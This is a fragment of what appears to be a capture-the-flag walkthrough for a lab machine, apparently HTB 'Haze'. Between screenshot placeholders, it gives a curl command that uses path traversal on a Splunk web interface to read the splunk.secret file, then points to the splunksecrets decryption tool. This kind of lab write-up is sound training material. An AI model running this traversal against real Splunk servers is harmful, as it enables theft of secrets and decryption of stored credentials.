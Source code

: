 ![](images/media/image10.png){width="5.253146325459317in"
height="3.516587926509186in"}

**https://docs.splunk.com/Documentation/Splunk/9.4.2/Installation/InstallonWindowsviathecommandline**

**RUN in Kali VM: curl -s
http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret**

![](images/media/image11.png){width="6.29375in"
height="0.4076388888888889in"}

**9.**INFO: Download splunksecrects.py
<https://github.com/HurricaneLabs/splunksecrets.git>
